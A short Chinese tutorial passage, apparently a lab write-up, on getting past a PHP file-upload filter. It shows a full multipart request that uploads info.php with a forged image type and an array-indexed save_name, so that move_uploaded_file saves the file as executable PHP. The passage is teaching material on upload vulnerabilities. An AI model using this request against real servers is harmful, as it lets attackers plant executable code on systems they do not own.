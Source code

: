 

###### 绕过

使用多个数组

```
------WebKitFormBoundaryDTdqZdRoon2GpWOE

Content-Disposition: form-data; name="upload_file"; filename="info.php"

Content-Type: image/jpeg



<?php phpinfo();?>



------WebKitFormBoundaryDTdqZdRoon2GpWOE

Content-Disposition: form-data; name="save_name[0]"



info.php/

------WebKitFormBoundaryDTdqZdRoon2GpWOE

Content-Disposition: form-data; name="save_name[2]"



jpg

------WebKitFormBoundaryDTdqZdRoon2GpWOE

Content-Disposition: form-data; name="submit"



上传

------WebKitFormBoundaryDTdqZdRoon2GpWOE--
```

最终文件名为“info.php/.” 因为move_uploaded_file底层会调用tsrm_realpath函数导致，递归删除文件名最后的/.







> 参考文章：https://blog.csdn.net/weixin_43901038/article/details/94890631

> https://www.cnblogs.com/shellr00t/p/6426945.html

> https://thief.one/2016/09/22/%E4%B8%8A%E4%BC%A0%E6%9C%A8%E9%A9%AC%E5%A7%BF%E5%8A%BF%E6%B1%87%E6%80%BB-%E6%AC%A2%E8%BF%8E%E8%A1%A5%E5%85%85/